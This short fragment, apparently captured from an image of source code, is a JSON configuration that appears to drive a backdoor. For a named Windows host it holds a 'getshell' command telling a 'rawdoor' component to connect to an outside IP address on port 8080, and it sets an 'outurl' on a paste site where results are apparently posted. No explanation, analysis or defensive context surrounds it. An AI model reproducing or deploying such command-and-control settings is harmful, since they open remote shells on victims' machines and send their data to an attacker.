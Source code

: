 
{"WIN-6SGUALVANS4":{"getshell":"?rawdoor r t 23.239.208.23  8080~open"},"all":{"outurl":"http://kl1p.com/nxZg?save=true&id=160399&type=code&name=nxZg&nid=&param=text%2Fplain&client=web&text="}}
